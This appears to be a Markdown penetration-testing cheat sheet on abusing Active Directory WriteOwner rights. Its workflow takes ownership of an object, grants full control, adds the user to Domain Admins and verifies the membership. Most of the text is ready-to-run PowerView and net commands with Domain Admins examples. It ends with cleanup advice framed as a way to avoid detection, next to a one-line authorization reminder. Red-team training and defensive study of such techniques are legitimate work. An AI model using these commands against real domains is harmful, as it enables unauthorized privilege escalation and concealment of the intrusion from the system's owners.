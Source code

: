 ### WriteOwner

#### Overview

Abusing **WriteOwner** permissions allows you to take ownership of an Active Directory object. This can be leveraged to modify permissions, gain privileges, or escalate access.

---

### Workflow

#### 1. **Set Yourself as Owner**

Take ownership of the target object. Replace `<TargetObject>` with the name of the object and `<YourUsername>` with your account name.

```powershell
Set-DomainObjectOwner -Identity '<TargetObject>' -OwnerIdentity '<YourUsername>'
```

- **Example**: Set yourself as the owner of the `Domain Admins` group.
    
    ```powershell
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'john.doe'
    ```
    

---

#### 2. **Grant Full Permissions to Yourself**

Once you are the owner, grant your user full control over the object. Replace `<TargetObject>` and `<YourUsername>` as appropriate.

```powershell
Add-DomainObjectAcl -TargetIdentity '<TargetObject>' -PrincipalIdentity '<YourUsername>' -Rights all
```

- **Example**: Give yourself full rights on the `Domain Admins` group.
    
    ```powershell
    Add-DomainObjectAcl -TargetIdentity 'Domain Admins' -PrincipalIdentity 'john.doe' -Rights all
    ```
    

---

#### 3. **Add Yourself to a Privileged Group**

With the necessary permissions, add your user to a high-privilege group, such as `Domain Admins`. Replace `<TargetGroup>` and `<YourUsername>` as needed.

```powershell
Add-DomainGroupMember -Identity '<TargetGroup>' -Member '<YourUsername>'
```

- **Example**: Add yourself to the `Domain Admins` group.
    
    ```powershell
    Add-DomainGroupMember -Identity 'Domain Admins' -Member 'john.doe'
    ```
    

---

#### 4. **Verify the Membership**

Check if your user has been successfully added to the group.

```powershell
net group "<TargetGroup>" /domain
```

- **Example**: Confirm you are part of `Domain Admins`.
    
    ```powershell
    net group "Domain Admins" /domain
    ```
    

---

#### 5. **Log Off and Log Back In**

Log off and back on to apply the updated privileges for your session.

---

### Notes

- **Replace Placeholders**:
    
    - `<TargetObject>`: The object you want to control (e.g., `Domain Admins`, specific users, or groups).
        
    - `<YourUsername>`: Your user account (e.g., `john.doe`).
        
    - `<TargetGroup>`: The target group for privilege escalation (e.g., `Domain Admins`).
        
- **Authorization**: Ensure you have permission to perform this activity as part of an authorized security assessment.
    
- **Cleanup**: To avoid detection, restore the original owner and permissions after testing:
    
    ```powershell
    Set-DomainObjectOwner -Identity '<TargetObject>' -OwnerIdentity '<OriginalOwner>'
    ```
